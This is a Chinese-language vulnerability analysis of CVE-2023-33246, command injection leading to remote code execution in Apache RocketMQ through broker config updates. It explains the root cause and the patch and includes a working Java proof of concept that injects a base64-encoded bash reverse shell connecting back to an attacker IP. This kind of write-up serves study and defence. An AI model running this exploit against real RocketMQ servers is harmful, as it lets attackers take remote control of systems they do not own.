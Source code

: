 - [CVE-2023-33246 Apache RocketMQ 远程代码执行漏洞](#cve-2023-33246-apache-rocketmq-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [updateBrokerConfig](#updatebrokerconfig)
    - [mqfiltersrv](#mqfiltersrv)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-33246 Apache RocketMQ 远程代码执行漏洞
## 影响版本
<= 5.1.0
## 环境搭建
https://archive.apache.org/dist/rocketmq/5.1.0/rocketmq-all-5.1.0-bin-release.zip
## 原理分析
大致原理是由于默认监听在10911的broker可以通过远程的方式来修改配置,而某个配置会被拼接到shell命令中定时执行,导致可以远程注入命令.
### updateBrokerConfig
在`AdminBrokerProcessor#processRequest()`方法中是Borker用来处理接收到的请求,根据接受请求中的`RequestCode`进入对应的处理逻辑.  
可以看到在`RequestCode`为`UPDATE_BROKER_CONFIG`时就会进入更新配置的处理.  
![](2023-07-06-14-40-12.png)  
处理的过程也很简单,将请求中body转为`properties`对象然后直接调用`this.brokerController.getConfiguration().update(properties);`更新即可.
![](2023-07-06-14-41-04.png)  
### mqfiltersrv
而在RocketMQ broker中还有一个Filter服务,该服务30S就会运行一次,而运行的方式就是调用shell执行Rocketmq目录下的mqfiltersrv.exe或者mqfiltersrv.sh.  
![](2023-07-06-14-45-50.png)  
可以看到在生成shell命令时会使用`getBrokerConfig`来获取Broker的一些配置并格式化在shell命令中.  
最后调用` FilterServerUtil#callShell`.直接调用`Runtime.exec()`了  
![](2023-07-06-14-48-06.png)    
所以思路便是构造一个BrokerRequest来更新配置,修改注入到shell命令中的配置属性,进行命令注入即可.  
## 漏洞复现  
poc:  
```java
import java.util.Base64;
import java.util.Properties;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

public class poc {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "127.0.0.1";
        String targetPort = "10911";
        String shellHost = "172.21.165.206";
        String shellPort = "12345";
        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```
## 补丁
1. 移除了Filetr Server模块.  
![](2023-07-06-15-00-34.png)  
2. 在更新配置时,一些配置不能够动态修改.  
![](2023-07-06-14-59-49.png)
## 参考
https://github.com/vulhub/vulhub/blob/master/rocketmq/CVE-2023-33246/README.zh-cn.md